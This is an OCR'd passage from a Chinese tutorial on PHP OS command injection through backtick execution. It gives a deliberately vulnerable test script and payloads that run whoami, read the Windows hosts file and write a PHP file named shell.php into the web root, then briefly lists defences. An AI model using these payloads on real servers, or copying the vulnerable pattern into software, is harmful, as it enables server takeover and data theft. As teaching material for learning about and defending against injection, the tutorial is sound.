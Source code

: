  

### *******反引号**

**反引号****[``]** **内的字符串，也会解析成****OS** **命令**

**测试代码如下**

> **-------shell_exec.php**
>
> **<?php**
>
> **if(isset($_GET['cmd'])){**
>
> **$str=$_GET['cmd'];**
>
> **print `$str`;**
>
> **}**
>
> **?>**
>
> **----------------------**
>
> **提交参数**
>
> **?cmd=whoami**

 

## **漏洞利用**

OS 命令注入漏洞，攻击者直接继承Web用户权限，在服务器上执行任意命令，危害特别大。以下命令均在windows 系统下测试成功。

### *******查看系统文件**

**提交参数****[?cmd=type c:\windows\system32\drivers\etc\hosts],****查看系统****hosts** **文件。**

### *******显示当前路径**

**提交参数****[?cmd=cd]**

### *******写文件**

**提交参数****[?cmd=echo "<?php phpinfo();?>" > c:\phpStudy\WWW\Commandi\shell.php]**

**页面没有报错，说明写入文件成功。访问****shell.php** **文件**

 

## **防御方法**

**1****、尽量减少命令执行函数的使用，并在****disable_functions** **中禁用**

**2****、在进入命令执行的函数或方法之前，对参数进行过滤**
